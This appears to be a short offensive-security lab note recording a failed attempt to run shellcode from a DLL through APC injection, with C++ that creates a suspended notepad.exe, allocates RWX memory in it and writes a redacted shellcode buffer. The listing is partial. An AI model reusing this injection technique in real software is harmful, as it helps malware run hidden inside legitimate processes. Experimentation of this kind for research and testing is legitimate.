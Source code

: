 ### Assumption

Straight injection works, so why shouldn't this? 

### Result

Fail. All around. The DLL didn't run in a `rundll32` context, nor the CPL context. An odd thing - instead of 1 process being created, 2 were; 1 a child of the other. However, a straight copy and paste to a c++ console application worked flawlessly. 

![](assets/2021-09-20_19-08.png)

![](assets/2021-09-20_19-08_1.png)

### Lessons

Unmanaged DLL does not jive with `QueueUserApc`

### Source

```cpp
int runner()
{
	char tProc[] = "c:\\windows\\syswow64\\notepad.exe";

    unsigned char sc_x64[] = "[...]";

    LPSTARTUPINFOA pStartupInfo = new STARTUPINFOA();
	LPPROCESS_INFORMATION pProcessInfo = new PROCESS_INFORMATION();
	CreateProcessA(0, tProc, 0, 0, 0, CREATE_SUSPENDED, 0, 0, pStartupInfo, pProcessInfo);

	if (!pProcessInfo->hProcess)
		return -1;

	LPVOID lpBaseAddress;
	lpBaseAddress = VirtualAllocEx(pProcessInfo->hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	SIZE_T* lpNumberOfBytesWritten = 0;
	BOOL resWPM;
	resWPM = WriteProcessMemory(pProcessInfo->hProcess, lpBaseAddress, (LPVOID)sc_x64, sizeof(sc_x64), lpNumberOfBytesWritten);

```